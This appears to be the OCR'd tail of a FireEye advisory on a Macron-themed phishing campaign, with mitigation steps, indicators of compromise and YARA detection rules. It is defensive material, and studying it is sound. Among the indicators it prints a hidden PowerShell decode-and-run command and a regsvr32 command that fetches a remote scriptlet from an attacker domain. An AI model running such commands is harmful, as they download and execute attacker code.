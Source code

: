 CallbackFE_Malformed_RTFEX/ETP/NXBlock*RTFMalware.Binary.rtfEX/ETP/NXBlock*RTFMalware.BinaryEX/ETP/NXBlock*RTFMalware.Binary.xlsxEX/ETP/NXBlock*XSLMTable 1: Detection review*Appliances must be configured for block mode.RecommendationsFireEye recommends organizations perform the following steps to mitigate the risk of this campaign:Microsoft Office users should apply the patch from Microsoft as soon as possible, if they have not already installed it.Search historic and future emails that match the included indicators of compromise.Review web proxy logs for connections to the included network based indicators of compromise.Block connections to the included fully qualified domain names.Review endpoints for the included host based indicators of compromise.Indicators of CompromiseThe following section provides the IOCs for the variants of the phishing emails and malicious payloads that FireEye has observed during this campaign.Email SendersPressReader <infodept@cloudsend[.]net>Angela Suh <angela.suh@cloudsend[.]net>Ashley Safronoff <ashley.safronoff@cloudsend[.]net>Lindsey Hersh <lindsey.hersh@cloudsend[.]net>Sarah Roberto sarah.roberto@cloudsend[.]netnoreply@cloudsend[.]netEmail Subject LinesMacron Denies Authenticity Of Leak, French Prosecutors Open ProbeMacron Document Leaker Releases New Images, Promises More InformationAre Emmanuel Macron's Tax Evasion Documents Real?Time AllocationVacancy Reportchina paper table and graphresults with zeros – some ready not all finishedMacron Leaks contain secret plans for the islamisation of France and EuropeAttachment NamesMacron_Authenticity.doc.rtfMacron_Information.doc.rtfUS and EU Trade with China and China CA.xlsmTables 4 5 7 Appendix with zeros.xlsmProject Codes - 05.30.17.xlsmWeekly Vacancy Status Report 5-30-15.xlsmMacron_Tax_Evasion.doc.rtfMacron_secret_plans.doc.rtfNetwork Based Indicators (NBI)lyncdiscover.2bunny[.]comautodiscover.2bunny[.]comlyncdiscover.2bunny[.]com:443/Autodiscover/AutodiscoverService/lyncdiscover.2bunny[.]com/Autodiscoverautodiscover.2bunny[.]com/K5omsfo02s01-in-f2.cloudsend[.]net/submit.phpsfo02s01-in-f2.cloudsend[.]net/IE9CompatViewList.xmltk-in-f156.2bunny[.]comtk-in-f156.2bunny[.]com/Agreement.doc104.236.77[.]169138.68.45[.]9162.243.143[.]145Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0; FunWebProducts; IE0006_ver1;EN_GB)tf-in-f167.2bunny[.]com:443 (*Only seen in VT not ITW)Host Based Indicators (HBI)RTF MD5 hash values0bef39d0e10b1edfe77617f494d733a80e6da59f10e1c4685bb5b35a30fc8fb6cebd0e9e05749665d893e78c452607e2XLSX MD5 hash values38125a991efc6ab02f7134db0ebe21b63a1dca21bfe72368f2dd46eb4d9b48c430f149479c02b741e897cdb9ecd22da7BEACON and Meterpreter payload MD5 hash valuesbae0b39197a1ac9e24bdf9a9483b18ea1151619d06a461456b310096db6bc548Process arguments, named pipes, and file pathspowershell.exe -NoP -NonI -W Hidden -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String("<base64 blob>")regsvr32.exe /s /n /u /i:hxxps://lyncdiscover.2bunny.com/Autodiscover scrobj.dll\\<ip>\pipe\msagent_<4 digits>C:\Documents and Settings\<user>\Local Settings\Temp\K5om.dll (4 character DLL based on URI of original GET request)Yara Rulesrule FE_LEGALSTRIKE_MACRO {       meta:version=".1"       filetype="MACRO"       author="Ian.Ahl@fireeye.com @TekDefense"       date="2017-06-02"       description="This rule is designed to identify macros with the specific encoding used in the sample 30f149479c02b741e897cdb9ecd22da7."strings:       // OBSFUCATION       $ob1 = "ChrW(114) & ChrW(101) & ChrW(103) & ChrW(115) & ChrW(118) & ChrW(114) & ChrW(51) & ChrW(50) & ChrW(46) & ChrW(101)" ascii wide       $ob2 = "ChrW(120) & ChrW(101) & ChrW(32) & ChrW(47) & ChrW(115) & ChrW(32) & ChrW(47) & ChrW(110) & ChrW(32) & ChrW(47)" ascii wide       $ob3 = "ChrW(117) & ChrW(32) & ChrW(47) & ChrW(105) & ChrW(58) & ChrW(104) & ChrW(116) & ChrW(116) & ChrW(112) & ChrW(115)" ascii wide       $ob4 = "ChrW(58) & ChrW(47) & ChrW(47) & ChrW(108) & ChrW(121) & ChrW(110) & ChrW(99) & ChrW(100) & ChrW(105) & ChrW(115)" ascii wide       $ob5 = "ChrW(99) & ChrW(111) & ChrW(118) & ChrW(101) & ChrW(114) & ChrW(46) & ChrW(50) & ChrW(98) & ChrW(117) & ChrW(110)" ascii wide       $ob6 = "ChrW(110) & ChrW(121) & ChrW(46) & ChrW(99) & ChrW(111) & ChrW(109) & ChrW(47) & ChrW(65) & ChrW(117) & ChrW(116)" ascii wide       $ob7 = "ChrW(111) & ChrW(100) & ChrW(105) & ChrW(115) & ChrW(99) & ChrW(111) & ChrW(118) & ChrW(101) & ChrW(114) & ChrW(32)" ascii wide       $ob8 = "ChrW(115) & ChrW(99) & ChrW(114) & ChrW(111) & ChrW(98) & ChrW(106) & ChrW(46) & ChrW(100) & ChrW(108) & ChrW(108)" ascii wide       $obreg1 = /(\w{5}\s&\s){7}\w{5}/       $obreg2 = /(Chrw\(\d{1,3}\)\s&\s){7}/       // wscript       $wsobj1 = "Set Obj = CreateObject(\"WScript.Shell\")" ascii wide       $wsobj2 = "Obj.Run " ascii widecondition:        (              (                      (uint16(0) != 0x5A4D)              )              and              (                      all of ($wsobj*) and 3 of ($ob*)                      or                      all of ($wsobj*) and all of ($obreg*)              )       )} rule FE_LEGALSTRIKE_MACRO_2 {       meta:version=".1"       filetype="MACRO"       author="Ian.Ahl@fireeye.com @TekDefense"       date="2017-06-02"       description="This rule was written to hit on specific variables and powershell command fragments as seen in the macro found in the XLSX file3a1dca21bfe72368f2dd46eb4d9b48c4."strings:       // Setting the environment       $env1 = "Arch = Environ(\"PROCESSOR_ARCHITECTURE\")" ascii wide       $env2 = "windir = Environ(\"windir\")" ascii wide       $env3 = "windir + \"\\syswow64\\windowspowershell\\v1.0\\powershell.exe\"" ascii wide       // powershell command fragments       $ps1 = "-NoP" ascii wide       $ps2 = "-NonI" ascii wide       $ps3 = "-W Hidden" ascii wide